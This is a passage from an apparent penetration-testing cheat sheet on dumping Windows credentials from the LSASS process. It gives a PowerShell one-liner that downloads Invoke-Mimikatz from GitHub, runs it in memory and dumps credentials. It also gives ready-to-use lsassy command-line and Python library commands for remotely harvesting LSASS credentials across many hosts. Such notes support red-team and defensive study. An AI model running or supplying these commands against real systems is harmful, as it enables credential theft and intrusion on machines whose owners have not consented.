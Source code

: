 Additionally, the `Invoke-Mimikatz.ps1` `PowerShell` script can be injected
into memory to use `mimikatz` on the targeted host with out uploading a
`mimikatz` binary on disk. However, as of 2020, this approach is flagged by
most `Anti-Virus` solutions.  

```
# If the compromised host can not access internet, Invoke-Mimikatz.ps1 should be hosted on a local website on a attacking machine.
(New-Object System.Net.WebClient).Proxy.Credentials =  [System.Net.CredentialCache]::DefaultNetworkCredentials
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds;
```

###### lsassy

The Python utility and library `lsassy` can be used to remotely dump the
`LSASS` processes, and extract credentials, on one or multiple hosts in a
distributed manner. `Lsassy` tries to dump the `LSASS` process of the specified
hosts, and if successful, parses the `LSASS` dumps directly on the remote
hosts.

`lsassy` implements three techniques, explicated above, to dump the `LSASS`
process: using the Windows built-in `comsvcs.dll` DLL executed using
`rundll32.exe`, by uploading and executing `sysinternals`' `procdump.exe`,
and ultimately by uploading and executing `dumpert.exe`.

The `pypykatz` Python script, which is an implementation of some
functionalities of `Mimikatz` in pure Python, is used to extract the
credentials from the `LSASS` dump.

Standalone binaries of `lsassy` for Linux / Windows are available on the
following [`OffensivePythonPipeline` GitHub
repository](https://github.com/Qazeer/OffensivePythonPipeline).

```
# As a standalone CLI utility
# TARGETS = IP(s), range(s), CIDR(s), hostname(s), FQDN(s), file(s) containing a list of targets
lsassy [-d <DOMAIN>>] -u <USERNAME> -p <PASSWORD> --format pretty <TARGETS>
lsassy [-d <DOMAIN>] -u <USERNAME> -H <NTLMHASH> --format pretty <TARGETS>

# As a Python library
from lsassy.core import Lsassy

lsassy = Lsassy(hostname="<HOSTNAME | IP>", username="<USERNAME>", domain="<DOMAIN>", password="<PASSWORD>")
credentials = lsassy.get_credentials()
for credential in credentials:
    [...]
```

Additionally, `lsassy` can be used as a `CrackMapExec` module (installation and
usage detailed below).

###### PowerSploit's Out-Minidump
